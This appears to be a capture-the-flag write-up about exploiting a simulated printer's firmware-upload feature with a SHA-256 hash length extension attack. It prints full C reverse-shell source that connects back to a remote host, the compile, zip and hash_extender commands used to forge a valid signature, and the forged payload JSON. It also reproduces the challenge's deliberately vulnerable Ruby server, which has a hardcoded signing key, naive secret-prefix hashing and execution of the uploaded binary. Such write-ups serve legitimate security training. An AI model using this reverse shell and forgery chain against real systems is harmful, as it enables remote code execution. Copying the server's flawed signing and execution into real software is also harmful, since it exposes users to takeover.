


# Printer Exploitation

Accessing the printer gives us access to only one thing: Upload and Download the current printer firmware.


First, let's download the firmware.


There was mention of a Hash Length Extension attack, which is beginning to be very clear. This is base64 encoded firmware, so let's decode it.

Decoding it shows...just a blob of data. Some strings in it mention `firmware.binUT`. Googling that shows "Peanut Plug firmware." I think I'm going to try to generate a reverse shell.

The json object I downloaded:


The blob of data, when using `file` against it, shows that it is:

`./printer-firmware: Zip archive data, at least v2.0 to extract, compression method=deflate`

Decompressing it shows that it is an ELF file, and running it simply shows that the firmware is up to date:

`Firmware is fully up to date!`

Since this just looks like C code, let's open it up in Ghidra.

Importing and analyzing it allows me to decompile the software into a super simple main function:


So in theory, it looks like I can just...open a shell. Let's use msfvenom to kick back a reverse shell!

First, make a payload:


Check to see that it works...

Now let's play with the hash length extender!


# Things I did

- Created a hacked shell, using copied C code:
```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execve("/bin/sh", 0, 0);
    return 0;
}
```

- Copied to a zip file:



- Created the hash length extension attack



- Converted the hex string to base64 so I could copy-paste it into the json file


- Editing the payload JSON file


# Enough of this, here is what actually worked.

First, I downloaded the above C reverse shell.

Compiled with:

`gcc -o firmware.bin`

Zipped it with:

`zip hacked firmware.bin`

Now got the hex of the revshell

`xxd -p ./hacked.zip | tr -d "\n"`

Ran it against hash_extender:

`./hash_extender --file=../orig.zip -s e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23 -f sha256 -l 16 --append-format=hex -a <resulting hash of previous xxd output`

Took the new string output of the above and ran it through this cyberchef recipe to copy it into a base64 blob

https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Base64('A-Za-z0-9%2B/%3D')

Took the output of that, added into the "firmware" portion of this json blob:

```json
{
    "firmware":"base64 of blob goes here",
    "signature":"output of signature from hash_extender goes here",
    "secret_length":16,
    "algorithm":"SHA256"
}
```

Uploaded it to the firmware site, got a success message:


And a callback!


SHELL!

A couple of things I discovered on the container:

The printer spool
```text
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

The ruby sinatra app that mimicked the printer:

```ruby
# encoding: ASCII-8BIT

SECRET_KEY = 'mybigsigningkey!'
FIRMWARE_FILE = '/var/firmware.zip'

require 'rubygems'

require 'base64'
require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'
require 'timeout'

require 'zip'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2 # 1mb

# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
def h(html)
  CGI.escapeHTML html
end

def handle_zip(data)
  # Write the data to a zipfile
  begin
    file = Tempfile.new()
    file.write(data)
    file.close()

    executable = "#{ file.path }-out/firmware.bin"
    zip_cmd = "unzip '#{ file.path }' 'firmware.bin' -d '#{ file.path }-out' 2>&1"

    zip_output = `#{ zip_cmd }`
    if !File.exists?(executable)
      raise "Could not extract firmware.bin from the archive:\n\n$ #{ zip_cmd } && #{ executable }\n\n#{ zip_output }"
    end

    # Do the actual execution in the background
    Thread.new do
      begin
        Timeout::timeout(30) do
          LOGGER.debug(`#{ executable }`)
        end
      ensure
        File.delete(executable)
      end
    end
  ensure
    file.unlink()
  end
end

def handle_firmware(filename)
  f = File.read(filename)
  if !f
    raise "File upload failed"
  end

  # Parse the JSON
  begin
    data = JSON.parse(f)
  rescue Exception => e
    raise "Failed to parse uploaded file as JSON: #{ e }"
  end

  # Decode the data
  begin
    zip_data = Base64.decode64(data['firmware'])
  rescue Exception => e
    raise "Failed to base64-decode the 'firmware' key from the uploaded file: #{ e }"
  end

  # Make sure they didn't mess with the other parameters
  if data['secret_length'] != SECRET_KEY.length
    raise "Unexpected secret_length value; it must be #{ SECRET_KEY.length }"
  end

  if data['algorithm'] != 'SHA256'
    raise "Unexpected algorithm; it must be SHA256"
  end

  # Validate it
  expected_signature = Digest::SHA2.hexdigest(SECRET_KEY + zip_data)
  if expected_signature != data['signature']
    raise "Failed to verify the signature! Make sure you are signing the data correctly: sha256(<secret> + raw_file_data)"
  end

  # Everything seems good, deal with the rest
  begin
    handle_zip(zip_data)
  rescue Exception => e
    raise "Failed to parse the ZIP file: #{ e }"
  end
end

module Printer
  class Server < Sinatra::Base
    def initialize(*args)
      super(*args)
    end

    configure do
      if(defined?(PARAMS))
        set :port, PARAMS[:port]
        set :bind, PARAMS[:host]
      end

      set :raise_errors, false
      set :show_exceptions, false
    end

    error do
      LOGGER.error("Error: #{ env['sinatra.error'] }")
      return 500, erb(:error, :locals => { message: "Error in #{ __FILE__ }: #{ h(env['sinatra.error'].message) }" })
    end

    not_found do |e|
      LOGGER.error("Not found: #{ e.to_s }")
      return 404, erb(:error, :locals => { message: "Error in #{ __FILE__ }: Route not found: #{ h(e.to_s) }" })
    end

    get '/' do
      erb(:index)
    end

    get '/topbar' do
      erb(:topbar)
    end

    get '/left_bar' do
      erb(:left_bar)
    end

    get '/PrinterStatus' do
      erb(:PrinterStatus)
    end

    get '/langbar' do
      erb(:langbar)
    end

    get '/login' do
      erb(:login)
    end

    post '/login' do
      erb(:error, :locals => { message: "Login is disabled" })
    end

    get '/config' do
      erb(:config)
    end

    get '/reports_and_information' do
      erb(:reports_and_information)
    end

    get '/linksindex' do
      erb(:linksindex)
    end

    get '/firmware/download' do
      headers['Content-Type'] = 'application/json'
      headers['Content-Disposition'] = 'attachment; filename="firmware-export.json"'
      file = File.read(FIRMWARE_FILE)

      return {
        'firmware' => Base64.strict_encode64(file),
        'signature' => Digest::SHA2.hexdigest(SECRET_KEY + file),
        'secret_length' => SECRET_KEY.length,
        'algorithm' => 'SHA256',
      }.to_json
    end

    get '/firmware' do
      erb(:firmware, :locals => { message: nil })
    end

    post '/firmware' do
      begin
        puts "Received a firmware update!"

        handle_firmware(params['file']['tempfile'].path)
        erb(:firmware, :locals => { message: "Firmware successfully uploaded and validated! Executing the update package in the background" })
      rescue Exception => e
        puts e
        puts e.backtrace
        erb(:error, :locals => { message: "Firmware update failed:<br/><pre>#{ h(e.to_s) }</pre>" })
      end
    end

    get '/secretendpointforuptime' do
      return File.read('/tmp/uptime-check.txt')
    end
  end
end
```